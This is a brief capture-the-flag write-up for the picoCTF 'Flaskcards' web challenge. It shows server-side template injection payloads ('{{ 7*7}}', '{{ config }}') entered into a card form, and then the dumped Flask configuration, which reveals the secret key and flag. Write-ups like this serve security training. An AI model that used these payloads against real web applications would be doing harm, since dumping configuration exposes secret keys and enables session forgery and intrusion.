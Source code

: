 # Flaskcards - Web

We are given a webpage where we first register an account and then we have the ability to create cards and view those created cards. After trying some different input, and thinking about the challenge title we figured out this is a SSTI problem and that Flask is used as backend.

This can be confirmed by entering

> {{ 7*7}}

This gives us 49 so it is executed on the backend. Then we can input 
> {{ config }}

This gives us the following output:

><Config {'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'DEBUG': False, 'MAX_COOKIE_SIZE': >4093, 'TEMPLATES_AUTO_RELOAD': None, 'PREFERRED_URL_SCHEME': 'http', 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, >43200), 'SESSION_COOKIE_NAME': 'session', 'SQLALCHEMY_POOL_RECYCLE': None, 'SESSION_COOKIE_SAMESITE': None, >'TRAP_BAD_REQUEST_ERRORS': None, 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_e8a55760}', 'JSON_SORT_KEYS': True, >'SQLALCHEMY_POOL_SIZE': None, 'SERVER_NAME': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TESTING': False, >'SQLALCHEMY_MAX_OVERFLOW': None, 'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SQLALCHEMY_BINDS': None, >'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), >'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'JSONIFY_MIMETYPE': 'application/json', 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, >'PROPAGATE_EXCEPTIONS': None, 'APPLICATION_ROOT': '/', 'MAX_CONTENT_LENGTH': None, 'ENV': 'production', >'EXPLAIN_TEMPLATE_LOADING': False, 'SESSION_COOKIE_HTTPONLY': True, 'SQLALCHEMY_NATIVE_UNICODE': None, >'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': False, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', >'BOOTSTRAP_CDN_FORCE_SSL': False, 'SQLALCHEMY_ECHO': False, 'TRAP_HTTP_EXCEPTIONS': False, 'SQLALCHEMY_POOL_TIMEOUT': None, >'BOOTSTRAP_USE_MINIFIED': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'SQLALCHEMY_RECORD_QUERIES': None, >'SESSION_COOKIE_PATH': None}>

Boom! We have the flag: picoCTF{secret_keys_to_the_kingdom_e8a55760}
